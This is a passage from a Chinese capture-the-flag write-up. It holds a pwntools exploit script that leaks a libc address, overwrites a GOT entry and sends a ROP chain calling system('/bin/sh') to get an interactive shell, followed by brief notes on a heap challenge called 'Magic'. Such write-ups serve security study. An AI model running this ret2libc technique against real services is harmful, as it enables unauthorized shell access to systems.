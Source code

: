 ```python
    puts=u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
    success('puts:'+hex(puts))
    libc_base=puts-libc.sym['puts']
    success('libc_base:'+hex(libc_base))


    sh=libc_base+libc.search('/bin/sh').next()
    system=libc_base+libc.sym['system']

    p.sendlineafter('your choice','0')
    p.sendlineafter('address:\n',str(0x601020))
    p.sendlineafter('content:\n',p64(elf.plt['puts']))
    p.sendlineafter('address:\n','-1')
    p.sendlineafter('your choice\n','1')
    p.sendlineafter('size:\n',str(0x200))
    p.sendlineafter('content:\n','A'*0x110+'b'*8+p64(0x4005d9)+p64(pop_rdi_ret)+p64(sh)+p64(system))
    p.sendlineafter('your choice\n','-1')
    p.interactive()
```

## Magic

64，无壳

看着比较麻烦，还是菜单的heap题。

其中的dword_202090为2，但是他并没有对index进行其他的操作，那么一直malloc(0)也是OK的，每次malloc的大小是固定的



![image-20211114224708423](陇原战疫2021部分wp/image-20211114224708423.png)
